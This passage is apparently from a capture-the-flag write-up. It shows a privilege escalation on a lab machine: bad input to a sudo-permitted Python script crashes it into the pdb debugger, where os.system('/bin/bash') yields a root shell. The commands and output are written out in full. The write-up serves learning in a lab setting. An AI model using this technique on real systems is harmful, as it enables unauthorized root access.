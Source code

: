 ```
[4] Quit
!

```

We tried to cause an exception with !, so lets check again our first connection:
```
user@forge:~$ sudo -u root /usr/bin/python3 /opt/remote-manage.py
Listening on localhost:47787
invalid literal for int() with base 10: b'!'
> /opt/remote-manage.py(27)<module>()
-> option = int(clientsock.recv(1024).strip())
(Pdb) import os
(Pdb) os.system("/bin/bash")
root@forge:/home/user#
```

It worked! We hacked the machine ;)
